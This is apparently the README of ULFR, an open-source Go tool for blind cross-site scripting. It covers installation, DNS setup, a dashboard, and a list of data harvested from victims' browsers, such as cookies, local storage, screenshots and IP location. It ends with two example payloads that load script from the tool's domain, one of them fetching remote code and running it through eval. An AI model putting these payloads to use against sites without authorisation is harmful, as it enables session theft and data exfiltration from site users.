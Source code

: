 # ULFR | Blind XSS

### >_ Introduction

The most powerful Blind XSS tool of the universe.
- Easily Installation
- Fastest
- Multi-Platform Support
- Multi-Domain Support
- Custom Payloads (Subdomain or Path)

### >_ Installation

```
git clone https://github.com/barisbaydur/ulfr.git
cd ulfr
```

<b>HostName</b>, <b>Port</b> and <b>MYSQL</b> Settings from "<b>config/settings.go</b>" should be update.

```
// App Settings
var AppName string = "Ulfr"
var AppVersion string = "0.1.0"
var HostName string = "localhost"
var Port string = "80"

// MYSQL Settings
var MysqlHost string = "localhost"
var MysqlPort string = "3306"
var MysqlUser string = "root"
var MysqlPass string = ""
var MysqlDb string = "ulfr"
```
for compile:
```
go build .
```

no compile run:
```
go run .
```

### >_ Requirements
- Golang
- MYSQL

### >_ How to Use
After the program runs, the panel can be accessed by going to the "<b>/dashboard</b>" address of the hostname address specified in the <b>settings.go</b>.

The features to be seen in the panel are as follows:

| Feature     | Description |
| ----------- | ----------- |
| Domain      | To manage domain addresses |
| Path        | Management of which path or subdomain the payloads will be located in |
| Fire        | Triggered XSS will appear here. |

First of all, you must register a domain. There are two steps for this. 

1. Your domain DNS records should be as follows.

| DNS Record  | Name           | Value       |
| ----------- | -------------- | ----------- |
| A           | domain.com     | \<IP-Adress> |
| A           | *.domain.com   | \<IP-Adress> |

2. You must register the domain name on the domain page.

After this stage, you must add a path from the path page. There are two options for this.

1. Crate as a path.
example: domain.com/xss 

2. Create as a subdomain
example: xss.domain.com

> [!TIP]
> Paths are not case sensitive.

### >_ Features

1. Browser Informations
    * Available Screen Size
    * Full Screen Size
    * Browser Name
    * Browser User Agent
    * Default Language
    * Triggered URL
    * Local Storage Data
    * Referrer URL
2. User Informations
    * IP Address
    * Location Information (country, city, ASN etc.)
3. Site Informations
    * Full Screenshot
    * Source Code
    * Headers
4. Cookies
    * All Available Cookies
    * Cookies (CORS HTTP-ONLY Bypass) (Not Implemented Yet)
    * Cookies (Trace Method)

> [!NOTE]  
> Do not run the application behind a tool like nginx and apache.

### >_ Example Payloads

* \<script src="domain.com/xss"></script>
* \<img src="x" onerror="fetch('\/\/domain.com/xss').then(response => response.text()).then(scriptText => eval(scriptText));">
